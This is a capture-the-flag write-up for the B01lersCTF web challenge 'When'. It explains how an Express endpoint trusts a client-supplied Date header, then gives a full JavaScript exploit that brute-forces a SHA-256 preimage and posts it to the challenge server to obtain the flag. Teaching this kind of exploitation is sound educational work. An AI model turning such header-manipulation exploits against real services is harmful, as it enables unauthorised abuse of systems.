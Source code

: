 ```yaml
---
author: ["Edward Pasenidis"]
title: "B01lersCTF - When (Web)"
date: "2025-04-21"
description: "Simple & fast SHA-256 brute-forcing"
tags: ["b01lersctf", "writeup", "ctf"]
categories: ["Writeups"]
ShowToc: false
---
```


## Overview

The challenge is a small Express app in which a user can hit anywhere on the page to "gamble".

## Reviewing the code

After reading `app.ts`, we can see that there is a rate-limiter in place so directly bruteforcing via HTTP is obviously impossible.
There is a `gamble(number)` function that returns a SHA-256, it is used to issue hashes from JavaScript dates.
```js
async function gamble(number: number) {
    return crypto.subtle.digest("SHA-256", Buffer.from(number.toString()))
}
```

Here comes the interesting part, the Express app serves a POST endpoint `/gamble`, which can optionally use a `Date` HTTP header to perform the "calculation". 

Let's see the code:
```js
app.post('/gamble', (req, res) => {
    const time = req.headers.date ? new Date(req.headers.date) : new Date()
    const number = Math.floor(time.getTime() / 1000)
    if (isNaN(number)) {
        res.send({
            success: false,
            error: "Bad Date"
        }).status(400)
        return
    }
    gamble(number).then(data => {
        const bytes = new Uint8Array(data)
        if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{fake_flag}"
            })
        } else {
            res.send({
                success: true,
                result: bytes[0].toString(2).padStart(8, "0") + bytes[1].toString(2).padStart(8, "0")
            })
        }
    })
});
```

The endpoint computes a SHA-256 hash from the Unix timestamp extracted from the Date header. If the first two bytes of the hash are 255, the server returns the flag.

## Writing an exploit

To pass the backend checks, we need to find a Unix timestamp `T` such that:
```js
Uint8Array(SHA256(T.toString()))[0] === 255
Uint8Array(SHA256(T.toString()))[1] === 255
```
We can brute-force locally since the same logic is used in the backend. Once we find the right value, we send a POST request with a `Date` header set to that exact time.

Here's the full exploit:
```js
import crypto from "crypto";

function gamble(number) {
    return crypto.createHash("sha256").update(number.toString()).digest();
}

function findFF() {
    for (let i = 0; i < 1e8; i++) {
        const hash = gamble(i);
        if (hash[0] === 0xff && hash[1] === 0xff) {
            console.log("Found it:", i);
            return i;
        }
    }
    throw new Error("Not found");
}

const timestamp = findFF();
const time = new Date(timestamp * 1000);

console.log("Timestamp:", timestamp);
console.log("Date:", time.toISOString());

const hash = gamble(timestamp);
console.log("First two bytes:", hash[0], hash[1]);
console.table(Array.from(hash));

const response = await fetch("https://when.atreides.b01lersc.tf/gamble", {
    method: "POST",
    headers: {
        "Date": time.toISOString()
    }
})

const data = await response.json()
console.log(data.flag)
```

In less than a second, it finds the right timestamp and fetches the flag:
```
Found it: 30398
Timestamp: 30398
Date: 1970-01-01T08:26:38.000Z
First two bytes: 255 255
┌─────────┬────────┐
│ (index) │ Values │
├─────────┼────────┤
│ 0       │ 255    │
│ 1       │ 255    │
│ 2       │ 142    │
│ 3       │ 213    │
│ 4       │ 111    │
│ 5       │ 101    │
│ 6       │ 202    │
│ 7       │ 240    │
│ 8       │ 1      │
│ 9       │ 159    │
│ 10      │ 144    │
│ 11      │ 214    │
│ 12      │ 91     │
│ 13      │ 127    │
│ 14      │ 21     │
│ 15      │ 139    │
│ 16      │ 134    │
│ 17      │ 46     │
│ 18      │ 252    │
│ 19      │ 171    │
│ 20      │ 92     │
│ 21      │ 69     │
│ 22      │ 23     │
│ 23      │ 167    │
│ 24      │ 108    │
│ 25      │ 1      │
│ 26      │ 199    │
│ 27      │ 58     │
│ 28      │ 207    │
│ 29      │ 146    │
│ 30      │ 217    │
│ 31      │ 155    │
└─────────┴────────┘
bctf{}
```

## Epilogue
Thanks for reading! Hope you had fun with this challenge.